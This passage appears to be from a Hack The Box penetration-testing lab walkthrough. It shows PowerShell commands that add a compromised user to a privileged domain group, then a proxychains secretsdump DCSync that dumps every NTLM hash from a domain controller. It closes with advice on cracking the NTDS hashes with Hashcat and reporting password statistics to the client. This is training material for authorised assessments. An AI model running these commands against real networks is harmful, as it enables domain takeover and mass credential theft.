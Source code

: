         
        PS C:\htb> PS C:\DotNetNuke\Portals\0> $timpass = ConvertTo-SecureString '<PASSWORD REDACTED>' -AsPlainText -Force

        PS C:\DotNetNuke\Portals\0> $timcreds = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\ttimmons', $timpass)


        $group = Convert-NameToSid "Server Admins"

        Add-DomainGroupMember -Identity $group -Members 'ttimmons' -Credential $timcreds -verbose


        -DCSyncing

        Finally, we can use Secretsdump to DCSync all NTLM password hashes from the Domain Controller.


        Gkaranikas@htb[/htb]$ proxychains secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm

        


                        //Post-Exploitation

        
        Once we've compromised the domain, depending on the assessment type, our work is not over. There are many things we can do to add additional value to our clients. If the goal of the assessment was to reach Domain Admin and nothing further, then we are done and should make sure we have all of our command/log output, scan data, and screenshots and continue drafting the report. If the assessment was goal focused (i.e., gain access to a specific database) we should continue working towards that goal. Domain Admin rights may be just the start as there could be other networks, domains, or forests in play that we will need to find our way into. If the assessment is more open ended and the client asked us to demonstrate as much impact as possible there are quite a few things we can do to add value and help them improve their security posture.




        -Domain Password Analysis - Cracking NTDS



        After we have dumped the NTDS database we can perform offline password cracking with Hashcat. Once we've exhausted all possible rules and wordlists on our cracking rig we should use a tool such as DPAT to perform a domain password analysis. This can nicely compliment findings such as Weak Active Directory Passwords Allowed, which we noted down after a successful password spraying attack earlier. This analysis can help drive the point home and can be a power visual. Our analysis can be included in the appendices of the report with metrics such as:

        Number of password hashes obtained
        
        Number of password hashes cracked
        
        Percent of password hashes cracked
        
        Top 10 passwords
        
        Password length breakdown
        
        Number of Domain Admin passwords cracked
        
        Number of Enterprise Admin passwords cracked

